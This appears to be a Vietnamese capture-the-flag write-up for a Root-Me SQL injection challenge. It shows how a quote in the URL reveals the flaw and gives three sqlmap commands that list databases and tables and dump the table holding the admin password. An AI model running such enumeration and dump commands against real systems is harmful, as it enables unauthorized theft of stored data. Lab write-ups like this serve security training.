 ![image](https://user-images.githubusercontent.com/125866921/231938826-85a12e93-c220-4c1d-a25d-43d70e8defaa.png)

  - Ta thấy lỗi của bài này xuất hiện ở page ``Contents``. Khi ta thêm kí tự ``'`` vào cuối URL sẽ xuất hiện lỗi.  
  - Do đó ta có thể khai thác SQLi từ page này, sử dụng ``sqlmap`` với URL ta sử dụng ``-u``.  

        python3 sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" --dbs  
        
          - Trong ngoặc kép là phần URL cần được khai thác.  
          - ``--dbs`` là để lấy dữ liệu từ database.  

![image](https://user-images.githubusercontent.com/125866921/231939709-bbaea358-9c88-4e36-afb2-504615a433dc.png)

  - Kết quả trả về cho ta thấy được là ở bài này có 2 cách khai thác là ``blind`` và ``error``.  
  - Kết quả trả về cũng cho ta được 3 database, nhưng ở đây ta chỉ cần chú ý vào ``database public``.  
  - Ta thực hiện lấy các tables có trên database này:  

        python3 sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public --tables
        
          - ``--tables`` được sử dụng để lấy các bảng.  
          - ``-D public`` dùng để lấy kết quả trong `database public``.  

![image](https://user-images.githubusercontent.com/125866921/231940117-c952c875-b154-4bdf-b669-4ec6d5e3093b.png)

  - Ta thấy có 1 bảng rất đáng nghi là ``m3mbr35t4bl3``. Vì thế ta sẽ thực hiện lấy dữ liệu của bảng đó.  

        python sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public -T m3mbr35t4bl3 --dump  
        
          - ``-T`` là chỉ vào bảng cần lấy dữ liệu.  
          - ``--dump`` là lấy toàn bộ dữ liệu của bảng.  

![image](https://user-images.githubusercontent.com/125866921/231940471-103a7248-6c9c-4f2d-bf7c-98f11d646dee.png)

  - Kết quả trà về ta thấy có 1 tài khoản ``admin``.  
  - Mật khảu của tài khoản cũng chính là flag mà ta cần tìm.  

